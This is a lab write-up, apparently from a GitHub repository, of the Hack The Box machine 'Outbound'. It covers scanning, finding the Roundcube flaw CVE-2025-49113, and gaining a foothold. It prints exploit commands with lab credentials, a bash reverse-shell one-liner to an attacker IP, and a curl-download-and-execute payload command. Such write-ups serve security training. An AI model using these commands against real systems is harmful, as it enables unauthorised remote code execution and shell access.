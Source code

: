 # Outbound - Active Machine
Outbound is  a Linux machine flagged Easy in the Active Machines and obviously little hard. This Box replicate some of the new Vulns and updated one.

## Step 1 - Nmap
Just performed basic nmap scan:\
`nmap -sC -SV <Target-IP>`\
where:\
`-sC` - Scan with default NSE scripts. Considered useful for discovery and safe.\
`-sV` - Attempts to determine the version of the service running on port.

The Output it produced is in the file - [Nmap output file](https://github.com/Nithin-vs/HTB-Labs-Docs/blob/main/Outbound/Nmap.txt)

## Step 2 - Opening in Browser
Found HTTP 80 port open and editing the `/etc/hosts` file allow me to see the Login Page. But the login page does not have any type of common web vulnerabilities.

Instead making a vulnerability scanning using `Nuclei` gave me a vulnerability __`CVE-2025-49113`__ 
> [!NOTE]
> CVE‑2025‑49113 – Post‑Auth Remote Code Execution vulnerability in Roundcube

The exploit script is found in "[Github](https://github.com/hakaioffsec/CVE-2025-49113-exploit)", which is written in php.

## Step 3 - Exploit
The exploit of the vulnerability is using the post authentication remote code execution and run arbitary code afer authentication. The user creds are given

```
php CVE-2025-49113.php http://mail.outbound.htb/ tyler LhKL1o9Nm3X2 "id"
```
this check the working of the exploit.

Now we need to make a reverse shell to get the foothold.
That require a small payload which runs on the victim to provide us the shell. 
1. Create a payload `exploit.sh` with 
```
/bin/bash -i >& /dev/tcp/<attackbox IP>/443 0>&1
``` 
2. Host this via the `python3 -m http.server 80`
3. Open the nc listener.
4. Running the script,
```
php CVE-2025-49113.php http://mail.outbound.htb/ tyler LhKL1o9Nm3X2 "curl <attackbox IP>/exploit.sh -o /tmp/nithin.sh && chmod +x /tmp/nithin.sh && /bin/bash -c /tmp/nithin.sh"
```
- `curl <attackbox IP>/exploit.sh -o /tmp/nithin.sh` - Downloads your reverse shell script (exploit.sh) from your attacker machine and saves it to `/tmp/nithin.sh` on the victim.
- `chmod +x /tmp/nithin.sh` - Makes the script executable.
- `/bin/bash -c /tmp/nithin.sh` - Executes the script in a bash shell.
